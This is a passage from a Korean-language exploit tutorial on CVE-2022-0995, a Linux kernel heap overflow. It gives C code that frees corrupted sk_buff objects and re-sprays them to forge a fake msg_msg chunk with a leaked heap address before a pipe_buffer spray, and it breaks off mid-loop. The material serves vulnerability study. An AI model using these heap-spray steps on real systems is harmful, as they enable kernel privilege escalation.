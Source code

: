 ![](/assets/img/study/cve_2022_0995_part2/pipe_buffer.png)

그걸 코드로 구현하면 다음과 같다. 

먼저 `pipe_buffer`를 스프레이 하기 전에, `sk_buff`으로 할당되어 있던 corrupted 된 영역을 할당 해제 해야 한다. 하지만 나중에 `sk_buff`를 통해 메모리 주소를 읽어야 하기 때문에, `msg_msg`를 통해 해당 메모리를 free 하자. 

하지만 `msg_msg`의 `mlist.next`와 `mlist.prev`는 0x4141414141414141, 0x4242424242424242 로 되어 있기 때문에 무작정 `msgrcv()`로 할당 해제를 하면 fault 가 발생한다. 

따라서 우리는 `sk_buff`를 다시 스프레이 하여 올바른 형태의 fake chunk 를 만들어야 한다. 

그러기 위해 먼저 `sk_buff`를 모두 할당 해제 해주자.

```c
void sk_buff_clean()
{
    int i, j;
    char read_buffer[1024];
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (read(socket_fd[i][1], read_buffer, 1024 - 0x140) < 0)
            {
                perror("sk_buff_clean: sk_buff read failed\n");
                exit(0);
            }
        }
    }
}
```

그 후, 다시 `sk_buff`를 스프레이 해서 올바른 chunk를 만들어준다. 

```c
    sk_buff->m_list.next = leaked_heap_addr;
    sk_buff->m_list.prev = leaked_heap_addr;
    sk_buff->m_type = MSG_TYPE_FAKE;
    sk_buff->m_ts = SPRAY_SIZE_KMALLOC_1024;
    sk_buff->next = 0;
    sk_buff->security = 0;
    
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (write(socket_fd[i][0], (void*)sk_buff, SK_BUFF_SPRAY_SIZE) < 0)
```